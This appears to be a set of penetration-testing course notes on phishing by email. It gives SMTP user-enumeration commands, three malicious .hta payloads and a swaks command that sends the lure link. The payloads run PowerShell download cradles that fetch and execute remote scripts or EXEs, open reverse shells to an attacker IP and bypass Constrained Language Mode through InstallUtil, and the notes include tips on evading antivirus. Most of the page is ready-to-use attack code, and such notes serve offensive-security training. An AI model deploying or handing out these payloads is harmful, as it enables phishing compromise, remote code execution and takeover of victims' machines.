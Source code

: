 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
- Note if you dont see the run.txt being downloaded, it may be because the method of New-Object System.Net.WebClient is restricted. You can use IWR instead
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```



### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```